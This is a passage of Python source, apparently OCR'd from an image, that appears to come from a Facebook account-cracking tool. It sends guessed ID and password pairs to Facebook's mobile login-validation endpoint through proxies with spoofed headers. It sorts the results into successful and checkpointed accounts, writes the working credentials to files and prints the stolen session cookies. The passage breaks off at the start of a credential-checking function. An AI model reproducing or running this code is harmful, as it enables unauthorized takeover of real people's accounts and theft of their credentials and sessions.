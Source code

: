 			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)

			if "checkpoint" in po.cookies.get_dict().keys():

				#print(f'\r {K}[CP] {idf} | {pw}{N}')     

				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')

				akun.append(idf+'|'+pw)

				cp+=1

				break

			elif "c_user" in ses.cookies.get_dict().keys():

				ok+=1

				coki=po.cookies.get_dict()

				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])

				print(f'\r{H}OK🤣 {idf} | {pw}|{kuki}{N}')

				open('OK/'+okc,'a').write(idf+'|'+pw+'\n')

				break

				

			else:

				continue

		except requests.exceptions.ConnectionError:

			time.sleep(61)

	loop+=1



# OPSI

def ceker(idf,pw):

	global cp

	ua = 'Mozilla/5.0 (Linux; Android 9; ASUS_X00TD) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.87 Mobile Safari/537.36'

	head = {"Host": "m.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": "https://m.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://m.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}

	ses = requests.Session()

	try:
